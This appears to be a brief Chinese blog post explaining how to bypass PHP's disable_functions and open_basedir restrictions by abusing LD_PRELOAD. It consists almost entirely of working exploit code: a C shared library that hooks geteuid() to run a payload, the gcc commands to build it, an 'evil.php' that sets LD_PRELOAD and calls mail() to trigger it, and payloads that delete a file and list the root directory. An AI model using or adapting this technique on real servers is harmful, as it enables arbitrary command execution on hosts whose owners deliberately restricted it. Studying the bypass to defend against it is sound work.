 ```yaml
---
title: LD_PRELOAD
date: 2018-06-04 10:10:00
tags:
---
```


# LRE_PAYLOAD绕过open_basedir

参考链接:

[利用环境变量LD_PRELOAD绕过disable_function执行系统命令](http://wooyun.jozxing.cc/static/drops/tips-16054.html)

[PHP绕过open_basedir列目录的研究](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html)

源码:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void payload() {
	system("rm /tmp/check.txt");
}
int  geteuid() {
	if (getenv("LD_PRELOAD") == NULL) { return 0; }
	unsetenv("LD_PRELOAD");
	payload();
}

```

编译:

```
gcc -c -fPIC shell.c -o teset
gcc -shared teset -o test.so
```

evil.php

```
<?php
putenv("LD_PRELOAD=/var/www/html/preload/test.so");
	mail("a@localhost","","","","");
?>
```

执行evil.php ，可以发现check.txt被删除。

列目录的payload:

```
#include <dirent.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
void payload()
{
    DIR* dir;
    struct dirent* ptr;
    dir = opendir("/");
    FILE  *fp;
    fp=fopen("/tmp/venenoveneno","w");
    while ((ptr = readdir(dir)) != NULL) {
        fprintf(fp,"%s\n",ptr->d_name);
    }
    closedir(dir);
    fflush(fp);
}
int geteuid()
{
    if (getenv("LD_PRELOAD") == NULL) {
        return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```




